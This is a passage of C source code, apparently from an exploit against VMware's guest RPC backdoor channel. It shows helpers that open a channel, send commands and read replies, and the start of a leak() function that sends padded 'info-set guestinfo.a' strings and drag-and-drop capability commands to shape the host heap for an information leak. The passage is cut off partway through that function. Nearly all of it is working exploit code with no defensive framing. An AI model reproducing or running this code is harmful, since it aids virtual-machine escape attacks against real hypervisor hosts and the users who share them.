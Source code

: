 ```
        return;
    `}`
    channel_set_len(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd),&amp;res);
    if(!res)`{`
        printf("fail to set len\n");
        return;
    `}`
    channel_send_data(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd)+0x10,cmd,&amp;res);

    channel_recv_reply_len(tmp.cookie1,tmp.cookie2,tmp.num,&amp;len,&amp;res);
    if(!res)`{`
        printf("fail to recv data len\n");
        return;
    `}`
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i&lt;len+0x10;i+=4)`{`
        channel_recv_data(tmp.cookie1,tmp.cookie2,tmp.num,i,data,&amp;res);
    `}`
    printf("recv data:%s\n",data);
    channel_recv_finish(tmp.cookie1,tmp.cookie2,tmp.num,&amp;res);
    if(!res)`{`
        printf("fail to recv finish\n");
    `}`

    channel_close(tmp.cookie1,tmp.cookie2,tmp.num,&amp;res);
    if(!res)`{`
        printf("fail to close channel\n");
        return;
    `}`
`}`
void leak()`{`
    struct channel chan[10];
    int res=0;
    int len,i;    
    char pay[8192];
    char *s1 = "info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *data;
    char *s2 = "info-get guestinfo.a";
    char *s21= "info-get guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s3 = "1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s4 = "tools.capability.dnd_version 4";
    char *s5 = "vmx.capability.dnd_version";
    //init data
    run_cmd(s1); // set the message len to be 0x100, so when we call info-get ,we will call malloc(0x100);
    run_cmd(s4);


    //first step 
    channel_open(&amp;chan[0].cookie1,&amp;chan[0].cookie2,&amp;chan[0].num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
        return;
    `}`
```